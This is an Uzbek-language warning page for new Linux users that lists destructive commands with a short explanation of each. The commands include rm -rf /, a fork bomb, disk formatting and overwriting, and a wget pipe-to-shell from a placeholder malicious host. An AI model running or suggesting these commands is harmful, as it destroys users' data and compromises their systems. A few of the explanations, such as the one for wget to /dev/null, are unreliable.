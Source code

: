 ```yaml
---
title: Zararli buyruqlar
description: Ayrim Zararli Buyruqlar
author: Khumoyun (@comoyun)
tags:
  - zararli-buyruqlar
---
```

![I crashed server](../images/i-crashed-server-meme.png)

**Ushbu Linux buyruqlarini hech qachon ishga tushirmang!!**

> Men Linuxni moslashuvchanligi va cheksiz imkoniyatlari uchun yaxshi ko'raman :)

`rm -rf /`  – Bu buyruq kompyuteringizdagi barcha fayl va papkalarni **oʻchirib** tashlaydi. 

`:(){ :|: & };:` – Bu buyruq “vilkalar bombasi” sifatida ham tanilgan, kompyuteringiz xotirasi tugashiga va tizimning ishdan chiqishiga olib keladi.

`mkfs.ext4 /dev/sda` - Bu buyruq qattiq diskni hech qanday ogohlantirishsiz formatlaydi. Barcha ma'lumotlar yo'qoladi.

`dd if=/dev/random of=/dev/sda` - Bu buyruq qattiq diskdagi barcha ma'lumotlarni tasodifiy qiymatlar bilan to'ldiradi, natijada ma'lumotlar yo'qoladi.

`chmod 777 /` – Bu buyruq barcha foydalanuvchilar uchun fayl tizimingizga toʻliq kirish imkonini beradi, bu esa xavfsizlik buzilishiga olib kelishi mumkin.

`mv /home/* /dev/null` – Bu buyruq uy katalogingizdagi barcha fayllarni “null” ga o'tkazadi, qisqasi, ular yo'qoladi.

`wget http://example.com/file -O /dev/null` - Bu buyruq faylni yuklab oladi va barcha ma'lumotlarni "null" ga qayta yozadi, natijada ma'lumotlar yo'qoladi.

`mkfs.ext4 /dev/sda1` - Bu buyruq qattiq disk partition-ni hech qanday ogohlantirish yoki tasdiqlamasdan formatlaydi. Ushbu partition-dagi barcha ma'lumotlar yo'qoladi.

ln -s /dev/null /etc/passwd – Bu buyruq “null”da “/etc/passwd” ga ramziy havola yaratadi, natijada ma’lumotlar yo‘qoladi.

`echo "Salom" > /dev/sda` - Bu tizimni yuklash uchun zarur bo'lgan barcha ma'lumotlarni o'z ichiga olgan partition-ni "Salom" satriga almashtiradi.

`wget http://malicious_source -O- | sh` - Bunday buyruqlar tizimingiz xavfsizligini buzishi mumkin bo'lgan zararli skriptlarni yuklab oladi va ishga tushiradi.

Bularni ulashishdan maqsad shuki, agar siz internetdagi forumlarga yangi Linux foydalanuvchisi sifatida oddiy savollar berish uchun qo‘shilsangiz, forumdagi odamlar sizni mazax qilib, yuqoridagi buyruqlardan birini savolingizga javob tariqasida qaytarishi mumkin. Maslahatim, shubhali buyruqlarni ChatGPT-dan so‘rang.



